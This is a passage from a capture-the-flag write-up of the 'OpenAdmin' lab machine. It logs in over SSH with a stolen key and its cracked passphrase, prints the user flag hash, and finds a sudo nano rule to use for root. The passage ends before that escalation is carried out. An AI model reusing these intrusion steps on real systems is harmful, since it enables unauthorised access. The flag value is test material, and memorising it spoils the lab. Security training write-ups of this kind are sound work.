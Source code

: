Using the key and its passphrase, we can achieve the user shell.
`user.txt` is in the directory `/home/joanna`.
```shell
root@kali:~# chmod 600 joanna_key 

root@kali:~# ssh joanna@10.10.10.171 -i joanna_key 
Enter passphrase for key 'joanna_key':                              # bloodninjas
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Jul 14 15:16:31 UTC 2020

  System load:  0.0               Processes:             130
  Usage of /:   49.7% of 7.81GB   Users logged in:       0
  Memory usage: 19%               IP address for ens160: 10.10.10.171
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

41 packages can be updated.
12 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Thu Jan  2 21:12:40 2020 from 10.10.14.3

joanna@openadmin:~$ cat user.txt 
c9b2cf07d40807e62af62660f0c81b5f
```


## 3. Getting Root
As always, check user permission to execute commands as a root user.<br>
We can find that `nano` is executable when we edit `/opt/priv`.
```shell
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```
